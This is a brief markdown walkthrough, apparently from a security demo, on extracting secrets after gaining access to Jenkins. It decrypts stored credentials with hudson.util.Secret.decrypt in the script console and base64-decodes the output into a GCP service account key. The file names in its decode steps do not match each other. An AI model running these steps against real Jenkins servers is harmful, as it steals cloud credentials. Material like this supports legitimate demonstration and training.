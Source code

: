 # Jenkins Decrypt
Now that we're in Jenkins, we'll look a bit around

## Secrets
There are predefined secrets.
Some maybe used for Terraform
Lets decrypt them

### Get the secret
Open 
```
http://jenkins.test.nevervictimconsult.xyz:8080/script
```
and start following script
```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```
where `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` is the encrypted content of the `<password>` or `<passphrase>` XML element that you are looking for.
And in order to get the password value of `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` go to credentials, update, in the browser "See source code" and you will get the encrypted password in the data field for password. Then use that function.

What you got is the base64 encoded json string for authenticating to GCP.
Next up: decode it.

### decode
Paste it into Kali

```bash
mkdir -p /root/demotalk/cloudAccess
cd /root/demotalk/cloudAccess
nano encoded.json
```

paste the string into `encrypted.json` and decode it then

```bash
cd /root/demotalk/cloudAccess
cat encode.json | base64 --decode > gcpSa.json
```
